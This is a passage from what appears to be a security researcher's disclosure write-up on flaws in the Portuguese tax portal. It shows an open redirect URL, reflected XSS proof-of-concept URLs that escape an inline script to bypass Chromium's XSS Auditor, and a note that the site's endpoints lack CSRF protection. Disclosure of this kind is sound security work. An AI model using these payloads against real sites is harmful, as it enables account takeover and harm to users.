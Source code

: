 Another open redirect can be found on the logout endpoint:

`https://www.portaldasfinancas.gov.pt/pt/logoutSA.action?redirectTo=https://migueldemoura.com`

Like many of these weaknesses, they affect both [www.portalfinancas.com](https://www.portalfinancas.com) and [sitfiscal.portalfinancas.com](https://sitfiscal.portalfinancas.com).


### Reflected XSS (GET) - Chromium XSS Auditor Bypass

Back to XSS; In the following case, and unlike all others, we also manage to bypass the Chromium XSS Auditor by injecting our code into an inline script:

``` html
https://sitfiscal.portaldasfinancas.gov.pt/geral/home?segmento=', '');alert(1);//
https://www.portaldasfinancas.gov.pt/geral/home?segmento=', '');alert(1);//
https://sitfiscal.portaldasfinancas.gov.pt/geral/home?areaDestino=', '');alert(1);//
https://www.portaldasfinancas.gov.pt/geral/home?areaDestino=', '');alert(1);//
```

{% include image.html path="finance-tax-portal-1/xss-get-auditor-bypass.png"
   alt="Injected code running - XSS Auditor Bypass." caption-no="5" caption="Injected code running - XSS Auditor Bypass."
%}

``` html
<script type="text/javascript">
  $(function () {
    alertas.init('<label>||ALERTA_TITULO||</label><p class="red-excerpt">||ALERTA_DESCRICAO||</p>', '<label>||ALERTA_TITULO||</label><p>||ALERTA_DESCRICAO||</p>', 'INJECTION', '');
  });
</script>
```

Our payload simply escapes the function and ensures it has the correct number of arguments:

``` html
<script type="text/javascript">
  $(function () {
    alertas.init('<label>||ALERTA_TITULO||</label><p class="red-excerpt">||ALERTA_DESCRICAO||</p>', '<label>||ALERTA_TITULO||</label><p>||ALERTA_DESCRICAO||</p>', '', '');alert(1);//', '');
  });
</script>
```

Since this is injected on multiple locations, we can prevent the exploit from executing more than once with the following string: `', '');if(!window.p){window.p=1; alert(1);}//`.

The four URLs pertain to the search functionality of two sections, both available without authentication.


### XSRF

With XSS out of the way, let's hop into another X-vulnerability - [Cross-Site Request Forgery (XSRF)](https://developer.mozilla.org/en-US/docs/Glossary/CSRF).

Since not a single one of the endpoints has XSRF protection, it is **trivial to take over an account if the user is both logged in at the portal and clicks a malicious link**.
